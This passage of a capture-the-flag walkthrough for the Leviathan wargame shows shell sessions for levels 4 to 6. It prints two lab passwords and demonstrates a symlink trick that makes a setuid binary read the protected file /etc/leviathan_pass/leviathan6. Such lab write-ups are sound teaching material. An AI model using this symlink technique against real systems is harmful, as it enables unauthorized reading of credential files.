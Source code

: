 ```console
leviathan4@leviathan:~$ cd .trash
leviathan4@leviathan:~/.trash$ ls -la
total 16
dr-xr-x--- 2 root       leviathan4 4096 Nov 14  2014 .
drwxr-xr-x 3 root       root       4096 Nov 14  2014 ..
-r-sr-x--- 1 leviathan5 leviathan4 7425 Nov 14  2014 bin
leviathan4@leviathan:~/.trash$ ./bin
01010100 01101001 01110100 01101000 00110100 01100011 01101111 01101011 01100101 01101001 00001010 
```

Interesting... it's a Binary Output. Let's go online, and use a Binary to ASCII converter. I used [RapidTables](http://www.rapidtables.com/convert/number/binary-to-ascii.htm) to do my conversion. After converting the Binary, we get the password `Tith4cokei`.

Easy enough, not too hard if you know what you were looking at. Let's move on to leviathan5!

### Level 5 -> 6:
Alright, so far we had some easy ones and some hard ones... let's see what's in store for us on leviathan5.

```console
leviathan5@leviathan:~$ ls -la
total 28
drwxr-xr-x   2 root       root       4096 Nov 14  2014 .
drwxr-xr-x 172 root       root       4096 Jul 10 14:12 ..
-rw-r--r--   1 root       root        220 Apr  9  2014 .bash_logout
-rw-r--r--   1 root       root       3637 Apr  9  2014 .bashrc
-rw-r--r--   1 root       root        675 Apr  9  2014 .profile
-r-sr-x---   1 leviathan6 leviathan5 7634 Nov 14  2014 leviathan5
```

Another executable, okay. Let's run it and see what we get.

```console
leviathan5@leviathan:~$ ./leviathan5
Cannot find /tmp/file.log
```

Okay. So it seems that the executable is trying to pull information on a file that doesn't exist. Let's run an `ltrace` and see what is being called.

```console
leviathan5@leviathan:~$ ltrace ./leviathan5
__libc_start_main(0x80485ed, 1, 0xffffd794, 0x8048690 <unfinished ...>
fopen("/tmp/file.log", "r")                      = 0
puts("Cannot find /tmp/file.log"Cannot find /tmp/file.log
)                = 26
exit(-1 <no return ...>
+++ exited (status 255) +++
```

Interesting, it seems that the executable is using `fopen` on __/tmp/file.log__. Let's go ahead and create a symlink to __/etc/leviathan_pass/levithan6__ and link it to __/tmp/file.log__.

```console
leviathan5@leviathan:~$ ln -s /etc/leviathan_pass/leviathan6 /tmp/file.log
leviathan5@leviathan:~$ ./leviathan5
UgaoFee4li
```
